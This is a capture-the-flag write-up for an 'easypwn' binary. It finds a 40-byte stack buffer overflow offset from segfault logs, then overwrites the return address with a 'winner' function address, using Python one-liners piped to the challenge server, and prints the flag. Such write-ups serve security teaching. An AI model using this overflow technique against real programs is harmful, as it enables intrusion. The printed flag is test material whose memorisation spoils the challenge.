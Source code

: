 ## Writeup

Tried to run it locally and run a whole lot of `A`'s as I guess this is a standard buffer overflow attack:

```bash
─$ python -c 'print("A"*45)' | ./easypwn
Hello!
What's your name? 
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
zsh: done                python -c 'print("A"*45)' | 
zsh: segmentation fault  ./easypwn
```

`dmesg` shows 

```log
[2846036.186229] easypwn[3901999]: segfault at 4141414141 ip 0000004141414141 sp 00007ffe72b935c0 error 14
```

I finetune and figure out that 40 A's is the magic number:

```bash
python -c 'print("A"*40 + "ABCDEF")' | ./easypwn
```

`dmesg` now shows that I overwrite the `Return Instruction Pointer` and the program segfaults.

```log
[2822529.208171] easypwn[3525302]: segfault at 464544434241 ip 0000464544434241 sp 00007ffff38f76b0 error 14
```

So now I can overwrite the RIP register. And I need to figure out the base address of this program. Running `checksec` shows that PIE is disabled so it starts at `0x400000`

![checksec](ss-checksec.png)

Ghidra also starts there so it will be easy to see the addresses of functions I can jump to by overwriting the return address. And by chance there is a function called `winner` at address `0x401236` that prints the flag.

![winner](ss-winner.png)

So adding that after 40 A's I get the flag!

```bash
─$ python -c 'print("A"*40 + b"\x36\x12\x40".decode());' | nc io.ept.gg 30004

Hello!
What's your name? 
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6@!
You are Winner! Flag:
EPT{S0meth1n6_2_ge7_u_5t4rt3d}
```